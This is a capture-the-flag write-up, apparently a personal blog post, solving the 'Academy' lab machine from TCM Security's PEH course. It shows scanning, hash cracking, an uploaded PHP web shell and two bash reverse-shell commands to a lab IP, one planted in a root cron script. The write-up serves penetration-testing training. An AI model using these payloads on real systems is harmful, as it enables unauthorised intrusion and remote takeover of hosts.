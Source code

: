 ```yaml
---
title: "Academy Box - PEH Capstone TCM Security"
description: "Solution for the Academy Box of Capstone challenges from the PEH course of TCM Security."
summary: "Solution for the Academy Box of Capstone challenges from the PEH course of TCM Security."
date: 2024-02-04
draft: false
author: "Aftab Sama" # ["Me", "You"] # multiple authors
tags: ["Web", "CTF", "Linux"]
canonicalURL: ""
showToc: false
TocOpen: false
TocSide: 'right'  # or 'left'
# weight: 1
# aliases: ["/first"]
hidemeta: false
comments: false
disableHLJS: true # to disable highlightjs
disableShare: true
hideSummary: false
searchHidden: false
ShowReadingTime: true
ShowBreadCrumbs: true
ShowPostNavLinks: true
ShowWordCount: true
ShowRssButtonInSectionTermList: true
# UseHugoToc: true
---
```


------------------------

> Writeup for Academy machine challenge from PEH course of TCM Security

Challenge File: https://drive.google.com/drive/folders/1VXEuyySgzsSo-MYmyCareTnJ5rAeVKeH


Run `sudo netdiscover -r 192.168.0.0/24` before starting the target VM to capture all available devices in subnet \
now start the target VM and wait for new machine IP entry it will be the IP of our target VM.

Before starting the target VM.

![image](/images/md/264f4aa5-62fd-47d0-bb51-88a1fe8211e7.webp)

After starting the target VM.

![image](/images/md/48ec1846-d9e4-4f40-a996-91b68db451f8.webp)


Now that we have the target IP `192.168.0.113` let's run the `nmap`.

```bash                                                                                                           
┌──(Jack㉿Sparrow)-[~/Downloads]
└─$  nmap -sC -sV -T5 192.168.0.113 -oA nmap_Academy.txt -Pn
Starting Nmap 7.93 ( https://nmap.org ) at 2024-02-02 13:58 EST
Warning: 192.168.0.113 giving up on port because retransmission cap hit (2).
Nmap scan report for 192.168.0.113
Host is up (0.0050s latency).
Not shown: 993 closed tcp ports (conn-refused)
PORT     STATE    SERVICE       VERSION
21/tcp   open     ftp           vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 1000     1000          776 May 30  2021 note.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:192.168.0.207
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp   open     ssh           OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 c744588690fde4de5b0dbf078d055dd7 (RSA)
|   256 78ec470f0f53aaa6054884809476a623 (ECDSA)
|_  256 999c3911dd3553a0291120c7f8bf71a4 (ED25519)
80/tcp   open     http          Apache httpd 2.4.38 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.38 (Debian)
1046/tcp filtered wfremotertm
1055/tcp filtered ansyslmd
1434/tcp filtered ms-sql-m
2038/tcp filtered objectmanager
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.39 seconds
```


Here we see that port `21,22,80` are open. 

In port 21 Anonymous FTP login is allowed  \
to see what files are present in this ftp we can open `ftp://192.168.0.113/` in windows File Explorer or we can also use curl

![image](/images/md/94033cfd-6173-49d2-bc31-18b3621d137f.webp)

![image](/images/md/8028de5e-668e-4123-8aef-42e27cb07c85.webp)


The note says `The StudentRegno number is what you use for login` which is `10201321` and
we have one password hash `cd73502828457d15655bbd7a63fb0bc8`. use tools like https://crackstation.net/ to crack the hash. \
This is md5 of `student`. \
now we have login credentials `10201321:student` note this for now and let's move to http site.

<br>

`http://192.168.0.113/` is Apache2 Debian Default Page.

![image](/images/md/d0094763-f520-4028-a338-0aca0d6cb604.webp)


There is nothing much to see in this default page so let's do the directory brute force.


```bash
┌──(Jack㉿Sparrow)-[~]
└─$ dirsearch -u http://192.168.0.113/ -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt 

  _|. _ _  _  _  _ _|_    v0.4.2
 (_||| _) (/_(_|| (_| )
                                                                                                                                                                                                                                            
Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 30 | Wordlist size: 141672

Output File: /home/kali/.dirsearch/reports/192.168.0.113/-_24-02-04_03-17-49.txt

Error Log: /home/kali/.dirsearch/logs/errors-24-02-04_03-17-49.log

Target: http://192.168.0.113/

[03:17:49] Starting: 
[03:18:19] 301 -  319B  - /phpmyadmin  ->  http://192.168.0.113/phpmyadmin/
[03:19:57] 301 -  316B  - /academy  ->  http://192.168.0.113/academy/       
                                                                              
Task Completed
```


We found the `/phpmyadmin/` and `/academy/` directories on the `http://192.168.0.113/academy/` page we have one login form.

![image](/images/md/8dcd96ba-f63a-4524-9ea6-95156c8ce0df.webp)


Let's try the login credentials `10201321:student` that we found previously from ftp note.

![image](/images/md/a36b56d4-987e-4e97-834f-f1f0fc105bf4.webp)


It worked we are now logged in. \
On the My Profile page we have file upload functionality.

try uploading simple php shell `<?php system($_REQUEST['cmd']); ?>` and it is not blocked we now have the ability to execute commands on server.

![image](/images/md/08e0c9d1-2522-4e8a-9fc3-4a19c13bc969.webp)


we can get reverse shell by this payload `cmd=bash+-c+"bash+-i+>%26+/dev/tcp/192.168.0.207/9001+0>%261"` \
reference: https://www.revshells.com

![image](/images/md/4dc9b13a-e0a3-4ff4-82fd-5a32fb2b0270.webp)

![image](/images/md/4cf54a48-a797-4c62-ae47-f0e3a7fa91a5.webp)


In the config.php file we have the mysql_password `My_V3ryS3cur3_P4ss` and in the ftp note we show line `I told him not to use the same password everywhere` which implies 
that user Grimmie is reusing the same password so we can try to use this password to switch to user Grimmie.

![image](/images/md/a6efd8be-7132-4ee9-86b2-b44bcb917ba6.webp)


looking at crontab we notice that `/home/grimmie/backup.sh` file is running as root and we can modify this file to get root access.

![image](/images/md/ee82ccab-380c-485d-855c-247e8e2e7dcc.webp)


Reverse shell payload to get shell as root: 

`echo 'bash -c "bash -i >& /dev/tcp/192.168.0.207/9002 0>&1"' > backup.sh`

![image](/images/md/0c2c4b55-7951-4637-ab07-86077b1ce395.webp)

![image](/images/md/b1a801aa-7b03-4d4d-849a-6a7532c95b22.webp)


Flag:

![image](/images/md/50dbf9b2-9236-4656-95ff-e7747b222a6c.webp)

Happy Hacking
